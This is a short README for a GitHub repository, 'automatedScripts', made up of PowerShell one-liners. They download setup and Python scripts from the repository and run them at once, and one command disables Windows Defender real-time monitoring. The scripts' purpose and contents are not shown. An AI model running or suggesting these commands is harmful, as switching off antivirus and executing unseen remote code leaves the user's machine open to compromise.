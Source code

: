 # automatedScripts

```bash
Invoke-WebRequest -Uri 'https://github.com/YogeshxSaini/automatedScripts/raw/main/setup.ps1' -OutFile 'setup.ps1'; Invoke-WebRequest -Uri 'https://github.com/YogeshxSaini/automatedScripts/raw/main/windows.py' -OutFile 'windows.py'; Invoke-WebRequest -Uri 'https://github.com/YogeshxSaini/automatedScripts/raw/main/mobile.py' -OutFile 'mobile.py'; .\setup.ps1
```

<h2> Disable Antivirus </h2>

```bash
Set-MpPreference -DisableRealtimeMonitoring $true
```

<h2> newSetup.ps1 </h2>

```bash
Invoke-WebRequest -Uri 'https://github.com/YogeshxSaini/automatedScripts/raw/main/newSetup.ps1' -OutFile 'newSetup.ps1'; .\newSetup.ps1
```

<h2> windows.py </h2>

```bash
Invoke-WebRequest -Uri 'https://github.com/YogeshxSaini/automatedScripts/raw/main/windows.py' -OutFile 'windows.py'; python windows.py
```

<h2> mobile.py </h2>

```bash
Invoke-WebRequest -Uri 'https://github.com/YogeshxSaini/automatedScripts/raw/main/mobile.py' -OutFile 'mobile.py'; python mobile.py
```
